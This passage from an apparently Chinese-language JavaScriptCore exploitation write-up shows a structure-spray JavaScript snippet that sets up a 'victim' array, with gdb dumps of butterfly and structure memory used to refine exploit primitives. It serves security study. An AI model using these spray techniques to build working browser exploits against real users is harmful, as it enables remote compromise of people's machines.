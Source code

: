 上面实现的原语可以更加精简，我们来研究一下

先Spray一堆数组对象，并且指定其中下标为`510`的对象为`victim`
```javascript
var structure_spray = [];
for(var i = 0; i < 1000; i++) {
    var array = [13.37];
    array.a = 13.37;
    array['p' + i] = 13.37;
    structure_spray.push(array);
}
print(describe(structure_spray));
// Object: 0x7fffaf4b4340 with butterfly 0x7fe0001fa070 (Structure 0x7fffaf4f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffaf4c80a0]), StructureID: 99

var victim = structure_spray[510];
print(describe(victim));
// Object: 0x7fffaf4b6330 with butterfly 0x7fe0000ca128 (Structure 0x7fffae0e9110:[Array, {a:100, p510:101}, ArrayWithDouble, Proto:0x7fffaf4c80a0, Leaf]), StructureID: 4902
```

对象`structure_spray`用于存储分配的数组对象，每个数组对象用属性`p + i`区分，比如`i`为`510`的数组对象属性就是`p510`，对象`structure_spray`的butterfly为`0x00007fe0001fa070`，所以`0x00007fe0001fa068`指向它的长度
```
(gdb) x/8gx 0x7fffaf4b4340
0x7fffaf4b4340:	0x0108210900000063	0x00007fe0001fa070
0x7fffaf4b4350:	0x0108210700001128	0x00007fe0000e0058
0x7fffaf4b4360:	0x0108210700001129	0x00007fe0000e0088
0x7fffaf4b4370:	0x010821070000112a	0x00007fe0000e00b8
(gdb) x/8gx 0x00007fe0001fa060
0x7fe0001fa060:	0x00007fe0001fa001	0x000003ec000003e8
0x7fe0001fa070:	0x00007fffaf4b4350	0x00007fffaf4b4360
0x7fe0001fa080:	0x00007fffaf4b4370	0x00007fffaf4b4380
0x7fe0001fa090:	0x00007fffaf4b4390	0x00007fffaf4b43a0
```

查看第一个数组元素，它的butterfly为`0x00007fe0000e0058`
```
(gdb) x/8gx 0x00007fffaf4b4350
0x7fffaf4b4350:	0x0108210700001128	0x00007fe0000e0058
0x7fffaf4b4360:	0x0108210700001129	0x00007fe0000e0088
0x7fffaf4b4370:	0x010821070000112a	0x00007fe0000e00b8
0x7fffaf4b4380:	0x010821070000112b	0x00007fe0000e00e8
(gdb) x/8gx 0x00007fe0000e0058
0x7fe0000e0058:	0x402abd70a3d70a3d	0x0000000000000000
0x7fe0000e0068:	0x0000000000000000	0x402bbd70a3d70a3d
0x7fe0000e0078:	0x402bbd70a3d70a3d	0x0000000100000001
0x7fe0000e0088:	0x402abd70a3d70a3d	0x0000000000000000
```

其中我们指定的`victim`内存布局如下，butterfly左边是长度和其它属性
```
(gdb) x/8gx 0x7fffaf4b6330
0x7fffaf4b6330:	0x0108210700001326	0x00007fe0000ca128
0x7fffaf4b6340:	0x0108210700001327	0x00007fe0000ca158
0x7fffaf4b6350:	0x0108210700001328	0x00007fe0000ca188
0x7fffaf4b6360:	0x0108210700001329	0x00007fe0000ca1b8
(gdb) x/8gx 0x00007fe0000ca108
0x7fe0000ca108:	0x0000000000000000	0x402bbd70a3d70a3d
0x7fe0000ca118:	0x402bbd70a3d70a3d	0x0000000100000001
0x7fe0000ca128:	0x402abd70a3d70a3d	0x0000000000000000
0x7fe0000ca138:	0x0000000000000000	0x402bbd70a3d70a3d
```

